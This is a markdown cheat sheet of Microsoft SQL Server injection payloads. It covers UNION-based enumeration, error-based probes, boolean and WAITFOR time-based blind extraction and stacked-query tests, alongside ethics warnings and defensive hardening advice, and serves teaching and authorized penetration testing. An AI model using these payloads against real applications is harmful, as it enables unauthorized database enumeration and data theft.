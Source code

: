 # Microsoft SQL Server (MSSQL) — Example SQL Injection Payloads & Notes (Non-destructive, Educational)

> [!WARNING]
> **Ethics reminder:** The examples in this file are for education and authorized testing only. Do **not** run these payloads against systems you do not own or do not have explicit written permission to test. Use intentionally vulnerable labs or local MSSQL instances for practice.

---

## Contents

* Basic detection probes
* UNION-based examples (non-destructive)
* Error-based examples (safe probes)
* Boolean-based blind examples
* Time-based blind examples (WAITFOR)
* Stacked-queries and batch behavior in MSSQL
* MSSQL-specific functions & extended procedures
* Defensive notes specific to MSSQL

---

## 1. Basic detection probes

Start with simple, low-risk inputs to check whether an application is likely vulnerable:

* `'` — single quote to provoke syntax errors.
* `"` — double quote depending on context.
* `1 OR 1=1` — logic change probe.

Example HTTP parameter probe:

```
GET /item?id=1'
```

Look for MSSQL-like errors such as `Unclosed quotation mark after the character string` or `Incorrect syntax near`.

---

## 2. UNION-based (non-destructive) examples

Assume an original query: `SELECT id, name, price FROM products WHERE id = 'USER_INPUT'`

### Find column count

Use incremental `NULL` placeholders:

```sql
' UNION SELECT NULL --
' UNION SELECT NULL, NULL --
' UNION SELECT NULL, NULL, NULL --
```

Stop when the DB stops returning a column-count error.

### Identify display columns

```sql
' UNION SELECT 'C1', 'C2', 'C3' --
```

Observe which markers appear in the page to identify reflected columns.

### Non-destructive enumeration examples

Once you identify display columns:

```sql
' UNION SELECT NULL, @@version, NULL --
' UNION SELECT NULL, SYSTEM_USER, NULL --
```

These may reveal SQL Server version and current DB user for fingerprinting.

---

## 3. Error-based (safe probes)

Trigger simple errors to fingerprint the DBMS and observe behavior.

* Single quote: `'`
* Conversion errors (illustrative):

```sql
' AND 1=(SELECT CONVERT(INT, @@version)) --
```

This may produce a conversion error revealing parts of the attempted value depending on configuration.

Avoid forcing extensive or destructive errors on production systems.

---

## 4. Boolean-based blind examples

Character extraction pattern (MSSQL):

```sql
' AND SUBSTRING((SELECT SYSTEM_USER),1,1) = 'a' --
```

Start with `AND 1=1` / `AND 1=2` to confirm influence before attempting extraction.

Optimizations:

* Limit character set.
* Use binary-search on ASCII ranges to reduce requests.

---

## 5. Time-based blind examples (MSSQL)

SQL Server uses `WAITFOR DELAY 'hh:mm:ss'` to introduce delays. Inject conditional waits carefully.

### Simple timing check

```sql
' ; IF 1=1 WAITFOR DELAY '00:00:05' --
```

If the response delays by \~5s, timing injection may be possible.

### Character extraction using WAITFOR

```sql
' ; IF (SUBSTRING((SELECT SYSTEM_USER),1,1) = 'a') WAITFOR DELAY '00:00:05' --
```

MSSQL's batch execution semantics may require adjusting payload placement depending on the API.

**Caveats:** Many APIs disallow multiple statements or batch commands by default.

---

## 6. Stacked-queries & batch behavior in MSSQL

MSSQL supports batch separators and multiple statements. Some client libraries permit batching while others restrict it.

### Safe test for batch execution

```sql
' ; SELECT 'X' --
```

If additional results or behaviors are observed, batching may be allowed — treat this as high risk.

**Warning:** Do not use destructive `DROP`/`DELETE` payloads during discovery.

---

## 7. MSSQL-specific functions & extended procedures

* `@@version` — SQL Server version string
* `SYSTEM_USER` — current login
* `SUSER_SNAME()` — login name
* `DB_NAME()` — current DB name
* `CHAR()` — build strings from ASCII codes
* `CONVERT()` / `CAST()` — type conversions
* `WAITFOR DELAY` — timing-based delays
* `OPENROWSET`, `OPENDATASOURCE`, `xp_cmdshell`, `xp_dirtree` — potentially powerful and dangerous; often disabled or limited

**Note:** Extended procedures like `xp_cmdshell` are typically disabled in secure environments — if enabled, they can allow OS‑level command execution.

---

## 8. Defensive notes specific to MSSQL

> [!NOTE]
> * **Disable `xp_cmdshell`** unless explicitly required and tightly controlled.
> * **Least privilege:** Application DB accounts should not have elevated server-level permissions.
> * **Use parameterized queries** (e.g., `sp_executesql` with parameter binding) to prevent injection.
> * **Monitor for access to `OPENROWSET`/`OPENDATASOURCE`** and other functions that may reach external resources.
> * **Hide detailed DB errors** from end users; log errors internally for analysis.
> * **Harden instance configuration**: disable unneeded features and audit server-level permissions.

---

## 9. Where to practice safely

> [!TIP]
> * PortSwigger Academy labs with MSSQL targets
> * Local Docker/VM setups running MSSQL with intentionally vulnerable web apps
> * OWASP Juice Shop configured against MSSQL backends (if available)
